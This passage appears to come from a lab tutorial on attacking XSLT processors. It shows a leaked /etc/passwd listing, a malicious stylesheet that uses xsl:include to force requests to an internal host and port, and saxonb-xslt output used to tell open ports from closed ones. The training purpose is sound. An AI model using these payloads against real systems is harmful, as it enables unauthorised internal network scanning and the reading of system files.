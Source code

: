 ```shell-session
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
<SNIP>
```

- `xsl:include` can be used to perform SSRF

We can also mount SSRF attacks if we have control over the transformation.

#### ssrf.xsl

Code: xml

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:include href="http://127.0.0.1:5000/xslt"/>
<xsl:template match="/">
</xsl:template>
</xsl:stylesheet>
```

#### Transformation through the terminal

  Attacking XSLT

```shell-session
Pangulin@htb[/htb]$ saxonb-xslt -xsl:ssrf.xsl catalogue.xml

Warning: at xsl:stylesheet on line 1 column 111 of ssrf.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
Error at xsl:include on line 2 column 49 of ssrf.xsl:
  XTSE0165: java.io.FileNotFoundException: http://127.0.0.1:5000/xslt
Failed to compile stylesheet. 1 error detected.
```

  Attacking XSLT

```shell-session
Pangulin@htb[/htb]$ saxonb-xslt -xsl:ssrf.xsl catalogue.xml

Warning: at xsl:stylesheet on line 1 column 111 of ssrf.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
Error at xsl:include on line 2 column 49 of ssrf.xsl:
  XTSE0165: java.net.ConnectException: Connection refused (Connection refused)
Failed to compile stylesheet. 1 error detected.
```

Check the different responses above when we hit an open or closed port. If you want to try this yourself in Pwnbox or a local machine, try executing the `saxonb-xslt` command above one time with nothing listening on port 5000 and one time with an HTTP server listening on port 5000 (`sudo python3 -m http.server 5000` in a separate tab or terminal).

We presented some tech-stack-identification XSL files at the beginning of this section. Below is one more, larger than the previous ones. Try using it to reproduce the example above.